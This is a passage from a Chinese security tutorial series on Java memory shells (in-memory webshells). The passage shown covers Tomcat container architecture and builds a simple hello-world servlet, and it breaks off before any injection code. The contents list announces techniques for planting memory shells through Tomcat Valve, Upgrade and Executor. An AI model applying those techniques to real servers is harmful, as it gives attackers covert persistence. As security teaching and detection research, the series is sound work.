








# 零基础从 0 到 1 掌握 Java 内存马（1） - 先知社区

零基础从 0 到 1 掌握 Java 内存马（1）

- - -

# 一、前言

之前写的零基础学`Fastjson`的文章反向很不错，很多师傅在公众号后台和我的微信私聊我表示感谢，其实也没啥，大家都是零基础过来的。网上的文章多而杂，并且只有少部分文章是配图清楚、文字描述清晰的，很多时候新手学着学着可能就因为作者的某一个地方没有描述清楚而不知其所指，非常痛苦；亦或是文章面向对象不同，前置知识不扎实导致很多东西无法理解，这些痛点我都曾经历过。但是随着看过的代码逐渐增多，见识逐渐丰富，调试的次数越多，对各种问题的处理就会越得心应手。

本文所讨论的`Java`内存马是`Java`安全中的一个不可或缺的板块，它内容丰富绮丽，研究起来让人着迷，沉沦其中流连忘返。我参考了`su18`师傅一年多以前发表在`Goby`社区的这篇文章（`https://nosec.org/home/detail/5049.html`）中给出的分类方式，把整个零基础掌握`java`内存马系列分成了以下几个部分：传统`web`型、`spring`系列框架型、中间件型、其他内存马（`Websocket/Jsp/线程型/RMI`）、`Agent`型内存马、实战内存马打入（`Jetty`/`Weblogic`/`Shiro`/`Struts2`/`GlassFish`/`xxl-job`...）和内存马查杀。  
本篇为上篇，上篇截止至【中间件型内存马】，下篇年后再写，最近太累了。  
由于先知社区发文字数限制，因此文章分为三部分发出来。  
文章完整版已开源至`Github`，觉得写的不错的话就给个`star`吧~：

> [https://github.com/W01fh4cker/LearnJavaMemshellFromZero](https://github.com/W01fh4cker/LearnJavaMemshellFromZero)

上篇的目录：

-   [一、前言](#%E4%B8%80%E5%89%8D%E8%A8%80)
-   [二、前置知识](#%E4%BA%8C%E5%89%8D%E7%BD%AE%E7%9F%A5%E8%AF%86)
    -   [2.1 Servlet 容器与 Engine、Host、Context 和 Wrapper](#21-servlet%E5%AE%B9%E5%99%A8%E4%B8%8Eenginehostcontext%E5%92%8Cwrapper)
    -   [2.2 编写一个简单的 servlet](#22-%E7%BC%96%E5%86%99%E4%B8%80%E4%B8%AA%E7%AE%80%E5%8D%95%E7%9A%84servlet)
    -   [2.3 从代码层面看 servlet 初始化与装载流程](#23-%E4%BB%8E%E4%BB%A3%E7%A0%81%E5%B1%82%E9%9D%A2%E7%9C%8Bservlet%E5%88%9D%E5%A7%8B%E5%8C%96%E4%B8%8E%E8%A3%85%E8%BD%BD%E6%B5%81%E7%A8%8B)
        -   [2.3.1 servlet 初始化流程分析](#231-servlet%E5%88%9D%E5%A7%8B%E5%8C%96%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90)
        -   [2.3.2 servlet 装载流程分析](#232-servlet%E8%A3%85%E8%BD%BD%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90)
    -   [2.4 Filter 容器与 FilterDefs、FilterConfigs、FilterMaps、FilterChain](#24-filter%E5%AE%B9%E5%99%A8%E4%B8%8Efilterdefsfilterconfigsfiltermapsfilterchain)
    -   [2.5 编写一个简单的 Filter](#25-%E7%BC%96%E5%86%99%E4%B8%80%E4%B8%AA%E7%AE%80%E5%8D%95%E7%9A%84filter)
    -   [2.6 从代码层面分析 Filter 运行的整体流程](#26-%E4%BB%8E%E4%BB%A3%E7%A0%81%E5%B1%82%E9%9D%A2%E5%88%86%E6%9E%90filter%E8%BF%90%E8%A1%8C%E7%9A%84%E6%95%B4%E4%BD%93%E6%B5%81%E7%A8%8B)
    -   [2.7 Listener 简单介绍](#27-listener%E7%AE%80%E5%8D%95%E4%BB%8B%E7%BB%8D)
    -   [2.8 编写一个简单的 Listener（ServletRequestListener）](#28-%E7%BC%96%E5%86%99%E4%B8%80%E4%B8%AA%E7%AE%80%E5%8D%95%E7%9A%84listenerservletrequestlistener)
    -   [2.9 从代码层面分析 Listener 运行的整体流程](#29-%E4%BB%8E%E4%BB%A3%E7%A0%81%E5%B1%82%E9%9D%A2%E5%88%86%E6%9E%90listener%E8%BF%90%E8%A1%8C%E7%9A%84%E6%95%B4%E4%BD%93%E6%B5%81%E7%A8%8B)
    -   [2.10 简单的 spring 项目搭建](#210-%E7%AE%80%E5%8D%95%E7%9A%84spring%E9%A1%B9%E7%9B%AE%E6%90%AD%E5%BB%BA)
        -   [2.10.1 编写一个简单的 Spring Controller](#2101-%E7%BC%96%E5%86%99%E4%B8%80%E4%B8%AA%E7%AE%80%E5%8D%95%E7%9A%84spring-controller)
        -   [2.10.2 编写一个简单的 Spring Interceptor](#2102-%E7%BC%96%E5%86%99%E4%B8%80%E4%B8%AA%E7%AE%80%E5%8D%95%E7%9A%84spring-interceptor)
        -   [2.10.3 编写一个简单的 Spring WebFlux 的 Demo（基于 Netty）](#2103-%E7%BC%96%E5%86%99%E4%B8%80%E4%B8%AA%E7%AE%80%E5%8D%95%E7%9A%84spring-webflux%E7%9A%84demo%E5%9F%BA%E4%BA%8Enetty)
    -   [2.11 Spring MVC 介绍](#211-spring-mvc%E4%BB%8B%E7%BB%8D)
        -   [2.11.1 Spring MVC 九大组件](#2111-spring-mvc%E4%B9%9D%E5%A4%A7%E7%BB%84%E4%BB%B6)
        -   [2.11.2 简单的源码分析](#2112-%E7%AE%80%E5%8D%95%E7%9A%84%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90)
            -   [2.11.2.1 九大组件的初始化](#21121-%E4%B9%9D%E5%A4%A7%E7%BB%84%E4%BB%B6%E7%9A%84%E5%88%9D%E5%A7%8B%E5%8C%96)
            -   [2.11.2.2 url 和 Controller 的关系的建立](#21122-url%E5%92%8Ccontroller%E7%9A%84%E5%85%B3%E7%B3%BB%E7%9A%84%E5%BB%BA%E7%AB%8B)
            -   [2.11.2.3 Spring Interceptor 引入与执行流程分析](#21123-spring-interceptor%E5%BC%95%E5%85%A5%E4%B8%8E%E6%89%A7%E8%A1%8C%E6%B5%81%E7%A8%8B%E5%88%86%E6%9E%90)
    -   [2.12 Spring WebFlux 介绍与代码调试分析](#212-spring-webflux%E4%BB%8B%E7%BB%8D%E4%B8%8E%E4%BB%A3%E7%A0%81%E8%B0%83%E8%AF%95%E5%88%86%E6%9E%90)
        -   [2.12.1 什么是 Mono？](#2121-%E4%BB%80%E4%B9%88%E6%98%AFmono)
        -   [2.12.2 什么是 Flux？](#2122-%E4%BB%80%E4%B9%88%E6%98%AFflux)
        -   [2.12.3 Spring WebFlux 启动过程分析](#2123-spring-webflux%E5%90%AF%E5%8A%A8%E8%BF%87%E7%A8%8B%E5%88%86%E6%9E%90)
        -   [2.12.4 Spring WebFlux 请求处理过程分析](#2124-spring-webflux%E8%AF%B7%E6%B1%82%E5%A4%84%E7%90%86%E8%BF%87%E7%A8%8B%E5%88%86%E6%9E%90)
        -   [2.12.5 Spring WebFlux 过滤器 WebFilter 运行过程分析](#2125-spring-webflux%E8%BF%87%E6%BB%A4%E5%99%A8webfilter%E8%BF%90%E8%A1%8C%E8%BF%87%E7%A8%8B%E5%88%86%E6%9E%90)
    -   [2.13 Tomcat Valve 介绍与运行过程分析](#213-tomcat-valve%E4%BB%8B%E7%BB%8D%E4%B8%8E%E8%BF%90%E8%A1%8C%E8%BF%87%E7%A8%8B%E5%88%86%E6%9E%90)
        -   [2.13.1 Valve 与 Pipeline](#2131-valve%E4%B8%8Epipeline)
        -   [2.13.2 编写一个简单 Tomcat Valve 的 demo](#2132-%E7%BC%96%E5%86%99%E4%B8%80%E4%B8%AA%E7%AE%80%E5%8D%95tomcat-valve%E7%9A%84demo)
        -   [2.13.3 Tomcat Valve 打入内存马思路分析](#2133-tomcat-valve%E6%89%93%E5%85%A5%E5%86%85%E5%AD%98%E9%A9%AC%E6%80%9D%E8%B7%AF%E5%88%86%E6%9E%90)
    -   [2.14 Tomcat Upgrade 介绍与打入内存马思路分析](#214-tomcat-upgrade%E4%BB%8B%E7%BB%8D%E4%B8%8E%E6%89%93%E5%85%A5%E5%86%85%E5%AD%98%E9%A9%AC%E6%80%9D%E8%B7%AF%E5%88%86%E6%9E%90)
        -   [2.14.1 编写一个简单的 Tomcat Upgrade 的 demo](#2141-%E7%BC%96%E5%86%99%E4%B8%80%E4%B8%AA%E7%AE%80%E5%8D%95%E7%9A%84tomcat-upgrade%E7%9A%84demo)
            -   [2.14.1.1 利用 SpringBoot 搭建](#21411-%E5%88%A9%E7%94%A8springboot%E6%90%AD%E5%BB%BA)
            -   [2.14.1.2 利用 Tomcat 搭建](#21412-%E5%88%A9%E7%94%A8tomcat%E6%90%AD%E5%BB%BA)
        -   [2.14.2 Tomcat Upgrade 内存马介绍与相关代码调试分析](#2142-tomcat-upgrade%E5%86%85%E5%AD%98%E9%A9%AC%E4%BB%8B%E7%BB%8D%E4%B8%8E%E7%9B%B8%E5%85%B3%E4%BB%A3%E7%A0%81%E8%B0%83%E8%AF%95%E5%88%86%E6%9E%90)
    -   [2.15 Tomcat Executor 内存马介绍与打入内存马思路分析](#215-tomcat-executor%E5%86%85%E5%AD%98%E9%A9%AC%E4%BB%8B%E7%BB%8D%E4%B8%8E%E6%89%93%E5%85%A5%E5%86%85%E5%AD%98%E9%A9%AC%E6%80%9D%E8%B7%AF%E5%88%86%E6%9E%90)
        -   [2.15.1](#2151)
        -   [2.15.2 Tomcat Executor 内存马介绍与代码调试分析](#2152-tomcat-executor%E5%86%85%E5%AD%98%E9%A9%AC%E4%BB%8B%E7%BB%8D%E4%B8%8E%E4%BB%A3%E7%A0%81%E8%B0%83%E8%AF%95%E5%88%86%E6%9E%90)
            -   [2.15.2.1 Endpoint 五大组件](#21521-endpoint%E4%BA%94%E5%A4%A7%E7%BB%84%E4%BB%B6)
            -   [2.15.2.2 Endpoint 分类](#21522-endpoint%E5%88%86%E7%B1%BB)
            -   [2.15.2.3 Executor 相关代码分析](#21523-executor%E7%9B%B8%E5%85%B3%E4%BB%A3%E7%A0%81%E5%88%86%E6%9E%90)

好了，让我们闲话少叙，就此开始我们的第一部分。

# 二、前置知识

本篇文章除特殊说明外，使用的是`jdk1.8.0_202`\+ `tomcat 9.0.85`，后者下载地址为：

> [https://dlcdn.apache.org/tomcat/tomcat-9/v9.0.85/bin/apache-tomcat-9.0.85-windows-x64.zip.](https://dlcdn.apache.org/tomcat/tomcat-9/v9.0.85/bin/apache-tomcat-9.0.85-windows-x64.zip%E3%80%82)

## 2.1 Servlet 容器与 Engine、Host、Context 和 Wrapper

这部分我找了好久，终于在一大堆高深/垃圾的文章中邂逅了一篇写的还算简明扼要易于理解的文章。

> 原文地址：[https://www.maishuren.top/archives/tomcat-zhong-servlet-rong-qi-de-she-ji-yuan-li](https://www.maishuren.top/archives/tomcat-zhong-servlet-rong-qi-de-she-ji-yuan-li)

这里组合引用其原文，简单概括，就是：

`Tomcat`设计了四种容器，分别是`Engine`、`Host`、`Context`和`Wrapper`，其关系如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001822-02f7220a-c830-1.jpeg)

这一点可以从`Tomcat`的配置文件`server.xml`中看出来。

此时，设想这样一个场景：我们此时要访问`https://manage.xxx.com:8080/user/list`，那`tomcat`是如何实现请求定位到具体的`servlet`的呢？为此`tomcat`设计了`Mapper`，其中保存了容器组件与访问路径的映射关系。

然后就开始四步走：

1.  根据协议和端口号选定`Service`和`Engine`。
    
    我们知道`Tomcat`的每个连接器都监听不同的端口，比如`Tomcat`默认的`HTTP`连接器监听`8080`端口、默认的`AJP`连接器监听`8009`端口。上面例子中的 URL 访问的是`8080`端口，因此这个请求会被`HTTP`连接器接收，而一个连接器是属于一个`Service`组件的，这样`Service`组件就确定了。我们还知道一个`Service`组件里除了有多个连接器，还有一个容器组件，具体来说就是一个`Engine`容器，因此`Service`确定了也就意味着`Engine`也确定了。
    
2.  根据域名选定`Host`。
    
    `Service`和`Engine`确定后，`Mapper`组件通过`url`中的域名去查找相应的`Host`容器，比如例子中的`url`访问的域名是`manage.xxx.com`，因此`Mapper`会找到`Host1`这个容器。
    
3.  根据`url`路径找到`Context`组件。
    
    `Host`确定以后，`Mapper`根据`url`的路径来匹配相应的`Web`应用的路径，比如例子中访问的是`/user`，因此找到了`Context1`这个`Context`容器。
    
4.  根据`url`路径找到`Wrapper`（`Servlet`）。
    
    `Context`确定后，`Mapper`再根据`web.xml`中配置的`Servlet`映射路径来找到具体的`Wrapper`和`Servlet`，例如这里的`Wrapper1`的`/list`。
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001823-0344d126-c830-1.jpeg)

这里的`Context`翻译过来就是上下文，它包括`servlet`运行的基本环境；这里的`Wrapper`翻译过来就是包装器，它负责管理一个`servlet`，包括其装载、初始化、执行和资源回收。

关于上图中的连接器的设计，可以继续参考该作者的博文：

> [https://www.maishuren.top/archives/yi-bu-bu-dai-ni-le-jie-tomcat-zhong-de-lian-jie-qi-shi-ru-he-she-ji-de](https://www.maishuren.top/archives/yi-bu-bu-dai-ni-le-jie-tomcat-zhong-de-lian-jie-qi-shi-ru-he-she-ji-de)

写到后面之后我又发现了一篇写的极佳的文章，贴在这儿供大家参考，讲的是关于`tomcat`架构的原理解析：

> [https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09](https://blog.nowcoder.net/n/0c4b545949344aa0b313f22df9ac2c09)

## 2.2 编写一个简单的 servlet

`pom.xml`文件如下：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>servletMemoryShell</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
        </dependency>
    </dependencies>

</project>
```

同步下依赖：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001824-03cf3528-c830-1.jpeg)

`TestServlet.java`代码如下：

```plain
package org.example;
import java.io.IOException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@WebServlet("/test")
public class TestServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        resp.getWriter().write("hello world");
    }
}
```

然后配置项目运行所需的`tomcat`环境：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001825-045637d0-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001826-04e6ec4e-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001826-054d0088-c830-1.jpeg)

然后配置`artifacts`，直接点击`fix`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001827-05b1248c-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001828-0605d7ac-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001828-0664fd7c-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001829-06a8d402-c830-1.jpeg)

然后添加`web`模块：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001829-070f37d8-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001830-077dfe5c-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001831-07f2e32a-c830-1.jpeg)

运行之后，访问[http://localhost:8080/testServlet/test：](http://localhost:8080/testServlet/test%EF%BC%9A)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211001831-083098d2-c830-1.jpeg)

## 2.3 从代码层面看 servlet 初始化与装载流程

主要参考文章：

> [https://longlone.top/安全/java/java安全/内存马/Tomcat-Servlet型/](https://longlone.top/%E5%AE%89%E5%85%A8/java/java%E5%AE%89%E5%85%A8/%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat-Servlet%E5%9E%8B/)

我们这里不采用我们下载的`tomcat`来运行我们的项目，我们使用嵌入式`tomcat`也就是所谓的`tomcat-embed-core`。关于动态调试，我是图省事，直接用`tomcat-embed-core`，你当然也可以调试直接调试`tomcat`源码，环境搭建方法可以参考`Skay`师傅的文章：

> [https://mp.weixin.qq.com/s/DMVcqtiNG9gMdrBUyCRCgw](https://mp.weixin.qq.com/s/DMVcqtiNG9gMdrBUyCRCgw)

我们重开一个项目，文件代码如下：

`pom.xml`：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>servletMemoryShell</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>9.0.83</version>
            <scope>compile</scope>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-jasper</artifactId>
            <version>9.0.83</version>
            <scope>compile</scope>
        </dependency>
    </dependencies>

</project>
```

`Main.java`：

